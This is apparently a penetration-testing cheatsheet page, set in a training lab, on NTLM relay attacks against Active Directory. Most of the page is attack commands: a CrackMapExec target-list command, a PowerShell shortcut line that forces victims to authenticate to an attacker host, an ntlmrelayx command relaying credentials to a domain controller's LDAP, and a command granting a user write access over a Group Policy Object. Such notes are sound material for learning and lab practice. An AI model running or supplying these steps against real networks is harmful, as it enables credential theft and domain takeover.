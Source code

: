 # NTLM Relay

When capturing a [NTLMv1/2](https://aas-n.gitbook.io/cheatsheet/windows-authentication-1/retrieve-windows-hashes) hashes with tools like Responder, attackers have two options:

* crack it to retrieve cleartext passwords
* relay it to gain code execution on a target

{% hint style="warning" %}
The relayed user must have privilege on the target.
{% endhint %}

### Valid targets <a href="#valid-targets" id="valid-targets"></a>

In order to relay hashes, we must have valid targets. **Valid targets are machines with SMB Signing disabled**.

SMB Signing is disabled by default on every Windows OS, except Windows Server.

To create a list file of valid targets, use [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):

```bash
cme smb <networkIP>/<cidr> --gen-relay-list relayTargets.txt
```

### Relaying hashes <a href="#relaying-hashes" id="relaying-hashes"></a>

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Create a shortcurt lnk file with the below content  and place it inside th shared AI folder.

```powershell
powershell "iwr 172.16.x.x -UseDefaultCredentials"
```

Run the below comamnd in the WSL Linux to relay the credentials to the DC.

```bash
sudo ntlmrelayx.py -t ldap://dcorp-dc.dollarcorp.moneycorp.local --http-port '80,8080' -i --no-smb-server
```

Use netcat to connect to the interavtive session and use the below to add the user to have write access over the GPO.

<pre class="language-aspnet"><code class="lang-aspnet"><strong>write_gpo_dacl studentx {0BF8D01C-1F62-4BDC-958C-57140B67D147}
</strong></code></pre>
